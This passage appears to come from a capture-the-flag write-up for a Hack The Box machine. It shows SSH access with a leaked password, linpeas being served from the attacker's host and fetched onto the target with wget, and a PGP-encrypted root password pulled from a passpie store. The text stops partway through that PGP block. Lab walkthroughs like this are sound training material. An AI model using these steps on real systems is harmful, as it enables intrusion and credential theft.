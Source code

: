 
- We get another password this way. Let's try it on ssh as we know the user jnelson is here because we found their home folder previously

### SSH

- `ssh jnelson@metapress.htb` the password is `Cb4_JmWM8zUZWMu@Ys`
- We can grab the user flag.

## Privilege escalation

- Let's take linpeas right away and enumerate automatically `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`
- `python3 -m http.server 80`
- And in our target `wget http://10.10.14.4/linpeas_linux_amd64`
- There were private ssh keys but I would not have guessed the path of the folder when trying to foothold `/home/jnelson/.passpie/.keys`
- Apparently passpie is password manager. We can get more info about it [here](https://github.com/marcwebbie/passpie)
- Interesting output from linepeas to analyze further

```bash
passwd file: /etc/pam.d/passwd                                                                                                                                                                                                               
passwd file: /etc/passwd
passwd file: /usr/share/lintian/overrides/passwd
╔══════════╣ Unexpected in root
/initrd.img.old                                                                                                                                                                                                                              
/initrd.img
/vmlinuz
/vmlinuz.old
/.bash_history
/home/jnelson/user.txt
/home/jnelson/.bash_history
/home/jnelson/.gnupg/pubring.kbx
/home/jnelson/.gnupg/trustdb.gpg

```

- There is are interesting files in jnelson
![root pass in passpie](../.res/2022-12-21-17-04-35.png)
- Here is the output of root.pass

```bash
comment: ''
fullname: root@ssh
login: root
modified: 2022-06-26 08:58:15.621572
name: ssh
password: '-----BEGIN PGP MESSAGE-----


  hQEOA6I+wl+LXYMaEAP/T8AlYP9z05SEST+Wjz7+IB92uDPM1RktAsVoBtd3jhr2

  nAfK00HJ/hMzSrm4hDd8JyoLZsEGYphvuKBfLUFSxFY2rjW0R3ggZoaI1lwiy/Km

  yG2DF3W+jy8qdzqhIK/15zX5RUOA5MGmRjuxdco/0xWvmfzwRq9HgDxOJ7q1J2ED
```